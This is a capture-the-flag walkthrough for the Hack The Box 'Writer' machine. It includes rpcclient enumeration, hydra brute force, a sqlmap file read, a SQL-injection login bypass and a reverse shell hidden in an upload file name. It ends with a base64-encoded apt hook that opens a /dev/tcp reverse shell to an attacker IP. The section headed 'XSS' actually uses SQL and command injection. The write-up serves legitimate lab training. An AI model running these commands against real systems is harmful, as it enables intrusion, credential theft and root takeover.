







# HTB Writer

## Intro

I noticed that there are 2 approaches to gaining access with this box.
The first is using XSS (Cross Site Scripting) and the other is leveraging Samba services then brute forcing.
I'll start with basic enumeration first and then branch off into 2 directions to get the user flag.


### Enumeration
As with most, if not all htb machines, we add writer.htb to the hosts file on the attacking machine.



Initial scan with nmap shows ports 22, 80, 139 and 445 are open.

` nmap -Pn -p- -vv -sS -A -oA all-ports writer.htb`



## Samba / Brute Force Approach

### Enumeration

First the attacker attempts to connect to writer.htb using RpcClient. 
Using guest credentials and no password, the attacker can gain access and check for users on the victim.

```buildoutcfg
rpcclient -U "" writer.htb
# Enter blank password
enumdomshare
```



### Foothold / User
Now that the attacker has a user for the system, they can just use the famous rockyou.txt password list.
This method will take a long time, but it is doable. 
```buildoutcfg
hydra -l <stole-username> -P /path/to/rockyou.txt ssh://writer.htb -VV -t 60
```

## XSS Approach

### Enumeration
This approach is more involved.
First, run a dirb, wfuzz, or something similar to find directories and files on port 80.



Looks like 'administrative' gives a 200 OK response.
Visiting http://writer.htb/administrative shows a login splash page.
Use 'sqlmap', the attack can also pull any files off the victim.

```buildoutcfg
$ cat request.txt                   
POST /administrative HTTP/1.1
Host: writer.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://writer.htb
Connection: close
Referer: http://writer.htb/administrative
Upgrade-Insecure-Requests: 1

uname=demo&password=demo
```

Since our NMAP scan tells shows this is Apache 2.4.41, pull the apache2 config file first.

```buildoutcfg
sqlmap -r request.txt --file-read=/etc/apache2/sites-enabled/000-default.conf
```

The config file shows where the apache files are stored on the server (/var/www/writer.htb/).

```
$ cat files/_etc_apache2_sites-enabled_000-default.conf 
# Virtual host configuration for writer.htb domain
<VirtualHost *:80>
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        <Directory /var/www/writer.htb>
                Order allow,deny
                Allow from all
        </Directory>
        Alias /static /var/www/writer.htb/writer/static
        <Directory /var/www/writer.htb/writer/static/>
                Order allow,deny
                Allow from all
        </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

Back to logging in, the attacker can add `admin' OR '1'='1` to username and login.
From here, the attacker can add / modify stories.
Any image uploaded is stored in `/var/www/writer.htb/static/img/`
(learned from apache2 default config and trial and error).


### Foothold
Intercept the traffic (I use OWASP Zap but others use Burp Suite), and modify the payload being sent to the victim.
The attacker is able to add anything in the filename file so long as `.jpg` exists in the name.
They can insert a reverse shell in file name, and execute it under the content.
Use the information

Note: There is an example of this in payloads/foothold.py.
I store the payload in /dev/shm/ instead of /var/www/writer.htb/static/img/.



### User

Check for users on the server.

```buildoutcfg
# Look for users with IDs greater than or equal to 1000
cat /etc/passwd
```

Now that the attacker has a shell, they will discover this site is using Django.
Search for the Django config file (settings.py) and find out where the database creds are located.

```buildoutcfg
# Find SQL DB CREDS
find /var/www -type f -name settings.py 2>/dev/null
# Read settings.py
cat /var/www/writer2_project/writerv2/settings.py
# Read the mysql config.
cat /etc/mysql/my.cnf
```

Once the attacker is in mysql, they can grab the hash for the user on the server.
Use the famous rockyou.txt and hashcat to crack the password.

```
hashcat -m 10000 -o cracked.txt hash.txt rockyou.txt
```

Use the password to login via SSH and grab that user flag.

```buildoutcfg
cat ~/user.txt
```

### Privilege Escalation

Either path (Bruteforce or XSS) you took should have brought you here.
Look at the groups the user belongs to.
There are 2 extra groups that aren't default (filter and smbgroup).
Use 'find' to locate any file with the group filter associated with it.


A quick look at /etc/postix/disclaimer shows that we may be able to fit a reverse shell in it.
The next person to receive it will execute that code.
Copy /etc/postix/disclaimer to /dev/shm/ (so we don't interfere with other htb guests) and modify it to work locally.
Create your own mail.py or use the one supplied in vulnerable_files here.
Open a listener on the attacking machine and execute mail.py.

```buildoutcfg
# On attacking machine
ncat -nv4lp 4444

# On victim.
# The files mail.py and evil_disclaimer should be under /dev/shm/ together.
cd /dev/shm
python3 mail.py
```

Now the attacker is active as the other user on the system.
Take the ssh key from this user and reenter with SSH.

```buildoutcfg
ssh john@writer.htb -i john/.ssh/id_rsa
```

Check out the groups again.


The attacker can inject another reverse shell into this directory and it will be executed with root permissions.
```buildoutcfg
echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNDYvMTAwNDQgMD4mMSIK | base64 -d | bash"};'> pwn
```

After executing the above command, open a listener on the attacking machine and wait. 

Note: You may have to reset the machine if it's not working.
Make sure your payload works with normal user persions before constantly reseting the box.

Once, the shell pops, go get that /root/root.txt flag.